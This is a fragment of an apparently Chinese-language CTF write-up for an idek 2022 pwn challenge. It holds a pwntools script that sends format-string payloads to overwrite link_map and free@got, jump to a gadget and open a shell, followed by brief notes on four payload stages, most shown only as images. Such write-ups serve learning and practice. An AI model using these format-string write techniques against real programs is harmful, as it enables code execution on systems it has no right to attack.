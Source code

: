 ```python
# recover link_map
p.sendlineafter("?", "%66$hhn%{}c%77$hhn".format((free_got+0x30+8+2)&0xffff))
p.sendlineafter("?", "%{}c%79$hn".format(((one>>16)&0xffff)))

# recover free@got, pwn!
p.sendlineafter("?", "%{}c%89$hhn".format(((free_got)&0xff)))  #跳过free即把free@got改为一个没什么用的指令的地址
p.sendlineafter("?", "%{}c%91$hn".format(((text_base+0x1030)&0xffff))) #出发gadget

p.interactive()

```

#### 第一处payload

一方面泄漏程序的基地址和`libc`的基地址，并且是程序重复执行

### 第二处payload

反复通过偏移更改地址为自己想要的内容

![](/images/idek2022/16.png)

### 第三处payload

![](/images/idek2022/17.png)

### 第四处payload

![](/images/idek2022/18.png)
